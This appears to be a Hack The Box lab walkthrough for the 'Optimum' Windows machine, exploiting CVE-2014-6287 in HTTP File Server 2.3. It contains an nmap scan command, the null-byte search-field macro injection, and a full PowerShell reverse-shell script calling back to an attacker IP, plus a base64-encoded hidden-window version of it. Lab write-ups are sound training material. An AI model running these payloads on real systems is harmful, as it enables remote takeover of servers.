

# Introdution

[https://app.hackthebox.com/machines/Optimum](https://app.hackthebox.com/machines/Optimum)

This is a easy Windows box. Enumerating the port 80, a webapp is discovered: Http File Server 2.3. 

This webapp is vulnerable to RCE. I get the kotas user, that has admin permissions.

The exploit for this machine is on the end of the post.

**Have a good time!**

## Diagram



# Enumeration

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.8 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.8
```


## **Port 80 (HTTP)**

We found a page web running Http File Server 2.3. This wep app has a vulnerability RCE in field “search”.


The CVE is **CVE-2014-6287**

Refer: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287)


# Exploration

## Exploring **RCE (**HTTP File Server 2.3.x**)**

There’re public exploits, but let’s explore manually.

> The vuln is issue exists due to a poor regex in the file ParserLib.pas
it will not handle null byte so a request to
> 
> 
> `http://localhost:80/search=%00{.exec|cmd.}`
> This will stop regex from parse macro , and macro will be executed and remote code injection happen.
> 

Reference page: [https://packetstormsecurity.com/files/128243/HttpFileServer-2.3.x-Remote-Command-Execution.html](https://packetstormsecurity.com/files/128243/HttpFileServer-2.3.x-Remote-Command-Execution.html). 

We can explore through the field `search`.


## POC

Burp tool was used to better control.

Payload URL encoded:


We got serve response. Now let’s to attack!

## Getting the Shell

First, the powershell reverse shell command was encoded in base64:

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.4",443); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()
```


After, this command was insert in payload. The payload was encoded in URL encode.

```
exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand "JGNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgiMTAuMTAuMTQuNCIsNDQzKTsgJHN0cmVhbSA9ICRjbGllbnQuR2V0U3RyZWFtKCk7IFtieXRlW11dJGJ5dGVzID0gMC4uNjU1MzV8JXt7MH19OyB3aGlsZSgoJGkgPSAkc3RyZWFtLlJlYWQoJGJ5dGVzLDAsJGJ5dGVzLkxlbmd0aCkpIC1uZSAwKXt7OyAkZGF0YSA9IChOZXctT2JqZWN0IC1UeXBlTmFtZSBTeXN0ZW0uVGV4dC5BU0NJSUVuY29kaW5nKS5HZXRTdHJpbmcoJGJ5dGVzLDAsJGkpOyAkc2VuZGJhY2sgPSAoSW52b2tlLUV4cHJlc3Npb24gJGRhdGEgMj4mMSB8IE91dC1TdHJpbmcgKTsgJHNlbmRiYWNrMiA9ICRzZW5kYmFjayArICJQUyAiICsgKEdldC1Mb2NhdGlvbikuUGF0aCArICI+ICI7ICRzZW5kYnl0ZSA9IChbdGV4dC5lbmNvZGluZ106OkFTQ0lJKS5HZXRCeXRlcygkc2VuZGJhY2syKTsgJHN0cmVhbS5Xcml0ZSgkc2VuZGJ5dGUsMCwkc2VuZGJ5dGUuTGVuZ3RoKTsgJHN0cmVhbS5GbHVzaCgpfX07ICRjbGllbnQuQ2xvc2UoKQo="
```


# Post Exploration

## WinPeas

We enumerated with WinPeas obteining the following results:


We discovered  that kostas already has full access to the Administrator folder.

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`optimum-getshell.py`


 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).

